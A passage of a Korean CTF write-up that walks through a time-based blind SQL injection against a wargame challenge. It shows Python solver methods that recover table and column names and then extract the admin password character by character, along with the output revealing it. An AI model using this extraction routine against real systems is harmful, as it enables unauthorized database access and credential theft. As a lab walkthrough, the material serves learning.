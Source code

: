 ```
# result
Number of Tables: 2
Length of Each Tables: [13, 3]
Names of Each Tables: ['admin_area_pw', 'log']
Name of a column in 'admin_area_pw': pw
```
어차피 column의 개수가 1개이기도 하고 따로 함수를 둘 필요는 없을 것 같아서 바로 직전에 구현했던 `_get_column_count()`함수를 없애버리고 `_get_column_name()`함수에 통합시켜버렸다. <br />
결과 값을 보면 `admin_area_pw`이 가지고 있는 컬럼 한 개의 이름은 `'pw'`이다.
### 비밀번호 가져오기
이제 테이블 이름과 컬럼 이름을 모두 다 알아냈다. 마지막으로 남은 일은 해당 테이블과 컬럼에서 진짜로 들어있는 비밀번호의 값을 알아내면 된다.<br />
원래였다면 그냥 `SELECT pw FROM admin_area_pw`로 곧바로 얻을 수 있겠지만, 그럴 수 있는 상황이 아니기 때문에 우리는 다시 한 번 노가다를 대신해줄 코드를 작성해줘야 한다.

```python
def _get_password(self, table_name: str, column_name: str) -> str:
	query = f'(SELECT length({column_name}) FROM {table_name})'
	password_len = self._query_time(query)

	password = ""
	for i in range(1, password_len + 1):
		query = f'(SELECT ascii(substr({column_name}, {i}, 1)) FROM {table_name})'
		password += chr(self._query_time(query))

	return password
	
def solve(self) -> None:
	table_count = self._get_table_count()
	print("Number of Tables:", table_count)

	table_names_len = self._get_table_name_len(table_count)
	print("Length of Each Tables:", table_names_len)

	table_names = self._get_table_names(table_names_len)
	print("Names of Each Tables:", table_names)

	column_name = self._get_column_name(table_names[0])
	print("Name of a column in 'admin_area_pw':", column_name)

	password = self._get_password(table_names[0], column_name)
	print("PASSWORD:", password)
```

```
# result
Number of Tables: 2
Length of Each Tables: [13, 3]
Names of Each Tables: ['admin_area_pw', 'log']
Name of a column in 'admin_area_pw': pw
PASSWORD: kudos_to_beistlab
```
비밀번호의 길이를 우선 length(pw) sql 연산자로 얻고 길이만큼 반복해주어 실제 값을 얻는 코드이다.<br />
결과를 보면 맨 마지막 줄에 실제 admin의 비밀번호가 출력된 것을 볼 수 있다.
